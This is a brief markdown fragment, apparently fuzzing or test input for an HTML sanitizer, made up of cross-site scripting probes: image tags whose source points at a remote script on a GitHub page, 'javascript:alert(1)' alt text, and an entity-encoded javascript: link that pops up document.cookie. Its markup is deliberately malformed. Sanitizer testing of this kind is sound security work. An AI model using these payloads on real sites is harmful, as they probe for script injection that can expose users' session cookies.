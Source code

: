 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>
<img src=data:text/https://github.com/r89shi/r89shi.github.io/blob/master/teste.js alt="javascript:alert(1)"/>
<a href="javascript&colon;alert&lpar;document&period;cookie&rpar;">Click Here</a>
](()
